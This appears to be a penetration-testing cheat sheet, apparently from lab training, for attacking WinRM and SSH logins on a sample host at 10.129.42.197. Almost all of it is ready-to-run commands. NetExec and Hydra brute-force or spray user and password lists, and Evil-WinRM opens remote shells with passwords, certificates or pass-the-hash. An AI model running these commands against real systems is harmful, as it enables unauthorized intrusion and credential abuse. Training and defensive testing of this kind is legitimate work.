 ## WinRM (Windows Remote Management)

### Ports
- **TCP 5985** - HTTP
- **TCP 5986** - HTTPS

### NetExec WinRM Attack
```bash
# Basic brute force
netexec winrm 10.129.42.197 -u user.list -p password.list

# Single user, password list
netexec winrm 10.129.42.197 -u administrator -p password.list

# Domain authentication
netexec winrm 10.129.42.197 -u user -p password -d domain.com
```

### Evil-WinRM
```bash
# Installation
sudo gem install evil-winrm

# Connect with credentials
evil-winrm -i 10.129.42.197 -u user -p password

# Connect with hash (pass-the-hash)
evil-winrm -i 10.129.42.197 -u user -H hash

# Connect with certificate
evil-winrm -i 10.129.42.197 -c cert.pem -k key.pem
```

## SSH (Secure Shell)

### Hydra SSH Attack
```bash
# Basic brute force
hydra -L user.list -P password.list ssh://10.129.42.197

# Single user
hydra -l user -P password.list ssh://10.129.42.197

# Reduce threads (recommended for SSH)
hydra -L user.list -P password.list -t 4 ssh://10.129.42.197

# Specify port
hydra -L user.list -P password.list -s 2222 ssh://10.129.42.197
```
